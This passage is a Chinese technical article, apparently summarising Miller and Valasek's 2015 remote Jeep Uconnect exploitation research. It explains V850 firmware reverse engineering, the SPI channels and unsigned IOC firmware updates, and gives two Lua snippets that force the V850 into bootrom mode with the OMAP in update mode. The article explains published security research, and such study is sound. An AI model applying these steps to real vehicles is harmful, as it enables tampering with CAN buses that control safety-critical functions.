现在最大的的问题是，尽管有一定能力篡改任意 CAN 消息，但是没有好的调用该函数的方法。所以接下来 Miller 等人只得修改固件代码，并且尝试从 Uconnect 主控芯片 OMAP 发送 CAN 消息，而 V850 只是 OMAP 与 ECUs 之间的代理。Uconnect 系统上虽然有一些执行 CAN 功能，但没有直接克调用向底层ECUs直接发送消息的函数，所以只能另寻他路。

V850/Fx3 也支持经过SPI和I2C的串口通信，但是仅保留了与车机主控的 SPI 通信连接。因此，Miller 等人尝试在固件中查看是否有可能做 SPI 数据处理。 SPI 是一种非常简单的串口协议，所以只需在线缆和代码上找那些看起来是逐字节处理的特定值。例如，下图中 ROM：0004A1E6 处的内容：



上图显示了在 SPI channel 7 线路的代码，可以看到上面图中ROM：0004A1E6 处的 0x22，用于后续匹配比较。后面我们会利用这些发现来改变 IOC 固件，使之发送数据给 V850 芯片，传递变量和发送任意 CAN 消息。

逆向 V850 固件和 SPI 通信花费了数周时间，这是本项目中最复杂的部分。

IOC 功能运行在 V850 芯片上，它可以直接访问 CAN 总线，因此改变 IOC 并发现一条从Uconnect 通向它的实现指令调用的通路是最重要的工作目标。由于 V850 的固件没有签名验证且可以经车机进行升级（修改），但目前只能经过USB盘进行升级，对于远程攻击者这一条件是不具备的。需要寻找无需USB设备就能从 OMAP 芯片刷写V850的方法。

前文已经描述过IOC更新过程由 “iocupdate” 可执行文件执行，经过 SPI channel 4 来执行类似 ISO-14230 标准的命令。当V850处于应用模式时，“iocupdate”二进制文件不会对其起作用，这是主机处于“开启”状态时的状态。当V850处于正常模式时，发送给它的所有这些SPI消息都会立即被忽略。必须令IOC处于 bootrom mode 下才能实现固件更新。然而，唯一能令 V850 处于“bootrom mode” 的方法是重启它，然后同时重启 OMAP 处理器（这会使攻击者也失去控制）。当 OMAP 处理器以 “update mode” 启动且 IOC 处于 “bootrom mode”时，它会尝试从一个USB盘进行升级。这个方式被硬编码在升级方式中，不能被改变。

第一步是获取重启 V850 到 bootloader 模式且OMAP处于 update mode 的代码。这是一段 Lua 代码：

```lua
onoff = require "onoff"
onoff.setUpdateMode(true)
onoff.setExpectedIOCBootMode("bolo")
onoff.reset( "bolo")
```

下面对应的代码是将 V850 置回 application mode 且 OMAP 处于 normal 模式：
```lua
onoff = require "onoff"
onoff.setExpectedIOCBootMode( "app")
onoff.setUpdateMode(false)
onoff.reset( "app")
```

下一步要做的是当 V850 为 bootrom mode 且 OMAP 处于 udpate mode 时，尝试获得代码执行权，以便我们可以绕过任何要求 USB 盘连接的检查。


## 参考文献
- Charlie Miller，Chris Valasek,《Remote Exploitation of an Unaltered Passenger Vehicle》,2015.
- [Jacky，《无钥匙进入及启动系统（Kessy）简介》 ](https://zhuanlan.zhihu.com/p/57872365.)
- [Nh, HOW THE FIRMWARE UPDATES WORK ON TOYOTA TOUCH & GO', 2012](https://haxor.fi/how-the-firmware-updates-work-on-toyota-touch-go/)
- [QNX](http://www.qnx.com/products/evaluation/eval-target.html)
- https://www.qnx.com/developers/docs/7.0.0/index.html
- https://www.iar.com/knowledge/learn/security/how-to-cover-the-best-security-practices-by-design/